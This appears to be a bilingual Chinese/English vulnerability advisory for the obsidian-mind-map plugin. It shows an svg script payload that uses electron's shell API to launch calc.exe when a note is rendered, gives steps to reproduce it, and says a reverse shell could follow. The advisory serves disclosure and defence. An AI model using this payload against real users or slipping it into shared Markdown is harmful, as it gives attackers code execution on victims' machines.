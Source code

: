 # Mind Map XSS2RCE

## 一、概述 | Ⅰ. Overview

**影响版本**：**[obsidian-mind-map](https://github.com/lynchjames/obsidian-mind-map)** 所有版本

**Affect version**: **[obsidian-mind-map](https://github.com/lynchjames/obsidian-mind-map)**   For all versions



**漏洞类型**：XSS及RCE

**Vulnerability Type**: XSS & RCE



**描述**：

**Description**:

obsidian-mind-map是Markdown笔记工具obsidian的一个插件，用于通过Markdown渲染生成思维导图，具有360,713次安装：

Obsidian-mind-map is a plugin for the Markdown note-taking tool obsidian for generating mind maps via Markdown rendering, with 360,713 installs:

![image-20231107165909462](.\images\image-20231107165909462.png)

该插件最新版本为1.1.0，对其所有版本均可通过以下svg标签实现XSS，由于obsidian使用electron开发，借由electron实现RCE：

The latest version of the plugin is 1.1.0, and for all versions, XSS is available via the following svg tag, and since obsidian is developed using electron, RCE is implemented via electron:

```js
<svg><script>try{ const {shell} = require('electron'); shell.openExternal('file:C:/Windows/System32/calc.exe') }catch(e){alert(e)}//";</script></svg>
```

## 二、复现 | Ⅱ. Reproduction

### 1、创建一个markdown文档，插入payload | 1. Create a markdown document and insert the payload

![image-20231107170641948](.\images\image-20231107170641948.png)

### 2、打开mind map渲染markdown | Open mind map to render markdown

![image-20231107170901381](.\images\image-20231107170901381.png)

![image-20231107171102749](.\images\image-20231107171102749.png)

如上图，执行`C:/Windows/System32/calc.exe`

As shown above, the execution `  C: / Windows/System32 / calc. Exe ` 

## 三、拓展利用 | Ⅲ. Vulnerability exploitation

攻击者可以通过向受害者发送含有payload的恶意Markdown，在受害者打开后，若安装了mind map插件，将导致执行攻击者命令，如反弹shell。

The attacker can do this by sending a malicious Markdown with a payload that, when opened by the victim, if the mind map plugin is installed, will result in the execution of attacker commands, such as a rebound shell.